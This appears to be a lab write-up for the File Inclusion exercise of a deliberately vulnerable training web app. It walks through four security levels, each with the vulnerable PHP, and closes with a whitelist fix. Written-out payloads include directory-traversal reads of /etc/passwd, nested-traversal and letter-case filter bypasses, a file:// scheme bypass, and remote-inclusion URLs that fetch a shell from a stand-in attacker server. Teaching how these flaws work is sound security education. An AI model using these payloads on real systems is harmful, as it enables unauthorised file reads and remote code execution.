






# File Inclusion (LFI/RFI)

File Inclusion vulnerabilities occur when an application dynamically includes local or remote files without properly sanitizing user input. This can lead to Local File Inclusion (LFI), allowing attackers to read sensitive system files (like `/etc/passwd`), or Remote File Inclusion (RFI), enabling the execution of malicious scripts hosted on an external server.

---

## Security Level: Low

**The Exploit:**
The application takes the `page` parameter from the URL and directly includes it. There is no filtering or directory traversal prevention. We can use `../` to navigate up the directory tree to access local system files (LFI) or pass an external URL to execute remote code (RFI).
**LFI Payload:** `?page=../../../../../../etc/passwd`
**RFI Payload:** `?page=http://attacker-server.com/malicious-shell.txt`

<details>
<summary><b>📸 View Exploit & Source Code</b></summary>
<br>

**Execution Output:**


**Source Code:**

</details>

**Code Analysis:**
The backend PHP code is completely unrestricted:
```php
$file = $_GET[ 'page' ];
include( $file );
```
The application blindly trusts the user input and attempts to include whatever file path or URL is passed to the `$file` variable.

---

## Security Level: Medium

**The Exploit:**
The application attempts to block RFI and directory traversal by blacklisting common strings like `http://` and `../`. However, `str_replace()` is not recursive. By nesting the traversal characters (e.g., `....//`), the filter removes the inner `../`, leaving a valid `../` behind. For RFI, modifying the capitalization (e.g., `hTTp://`) easily bypasses the strict lowercase blacklist.
**LFI Payload:** `?page=....//....//....//....//etc/passwd`
**RFI Payload:** `?page=hTTp://attacker-server.com/malicious-shell.txt`

<details>
<summary><b>📸 View Exploit & Source Code</b></summary>
<br>

**Execution Output:**


**Source Code:**

</details>

**Code Analysis:**
The developer implemented a blacklist to replace specific attack strings with empty spaces:
```php
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );
```
Because the replacement only runs once per array item, nested payloads or case-variations slip right through.

---

## Security Level: High

**The Exploit:**
The high-level filter demands that the `page` parameter must either be exactly `include.php` or start with the word `file`. While this prevents standard RFI, we can exploit this logic flaw using the `file://` URI scheme to bypass the restriction and achieve Local File Inclusion.
**LFI Payload:** `?page=file:///etc/passwd`

<details>
<summary><b>📸 View Exploit & Source Code</b></summary>
<br>

**Execution Output:**


**Source Code:**

</details>

**Code Analysis:**
The developer used the `fnmatch()` function to check the beginning of the string:
```php
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    echo "ERROR: File not found!";
    exit;
}
```
The flaw here is using wildcards (`file*`). The attacker simply complies with the rule by starting their payload with `file:///` (which points to the local root directory), successfully bypassing the security check.

---

## Security Level: Impossible (Secure)

**The Remediation:**
The application is fully secure against both Local and Remote File Inclusion attacks. Directory traversal and remote URLs are entirely neutralized.

<details>
<summary><b>📸 View Secure Source Code</b></summary>
<br>


</details>

**Code Analysis:**
The developer correctly implemented a **strict whitelist**. 
```php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    echo "ERROR: File not found!";
    exit;
}
```
Instead of trying to guess and block bad input (blacklisting), the application explicitly defines the only four files it is allowed to include. If the input does not perfectly match one of these four hardcoded options, the request is immediately rejected.
